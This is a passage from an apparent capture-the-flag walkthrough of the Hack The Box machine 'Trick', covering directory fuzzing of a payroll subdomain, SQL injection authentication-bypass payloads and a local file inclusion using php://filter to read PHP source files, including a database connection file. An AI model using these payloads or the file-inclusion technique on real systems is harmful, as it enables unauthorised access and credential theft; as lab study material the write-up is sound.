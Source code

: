 	       v1.3.1 Kali Exclusive <3
	________________________________________________
	
	 :: Method           : GET
	 :: URL              : http://preprod-payroll.trick.htb/FUZZ
	 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
	 :: Follow redirects : false
	 :: Calibration      : false
	 :: Timeout          : 10
	 :: Threads          : 40
	 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
	________________________________________________
	
	                        [Status: 302, Size: 9546, Words: 1453, Lines: 267]
	assets                  [Status: 301, Size: 185, Words: 6, Lines: 8]
	database                [Status: 301, Size: 185, Words: 6, Lines: 8]
	index.php               [Status: 302, Size: 9546, Words: 1453, Lines: 267]
	:: Progress: [4615/4615] :: Job [1/1] :: 1127 req/sec :: Duration: [0:00:04] :: Errors: 0 ::
	
	```
	- `database`
		- Suggests that there is a database that could be used for login.
4. Proceed to `preprod-payroll.trick.htb`
	![]({{ page.img_path }}Pasted%20image%2020220723040033.png)
4. Attempt SQLi, could not trigger an error w/ `'` quotes
		![]({{ page.img_path }}Pasted%20image%2020220723040619.png)
5. Attempt SQLi Auth Bypass
	```
	# Payloads
	or 1=1
	or 1=1--
	or 1=1#
	or 1=1/*
	or 1=1 -- -
	```
![]({{ page.img_path }}Pasted%20image%2020220723042954.png)![]({{ page.img_path }}Pasted%20image%2020220723043039.png)
 
## LFI Vulnerability - 1
1. After browsing through the Recruitment Management System, found a parameter that is vulnerable to LFI
	```
	preprod-payroll.trick.htb/index.php?page=<Include a file w/ a php extension>
	```
2. Include files that could contain sensitive information w/ [phpfilter](https://book.hacktricks.xyz/pentesting-web/file-inclusion#php-filter), it allows us to encode the page w/ base64 to later decode and view the contents
	- `index.php`
		```
		index.php?page=php://filter/convert.base64-encode/resource=index
		```
		![]({{ page.img_path }}Pasted%20image%2020220726223151.png)![]({{ page.img_path }}Pasted%20image%2020220726223529.png)
		 - Check if GET parameter `$page` is set, then include that page, appending `.php` to it
	- `ajax.php`
		![]({{ page.img_path }}Pasted%20image%2020220726223940.png)
	- `admin_class.php`
		![]({{ page.img_path }}Pasted%20image%2020220726224021.png)
	- `db_connect.php`
		![]({{ page.img_path }}Pasted%20image%2020220726224052.png)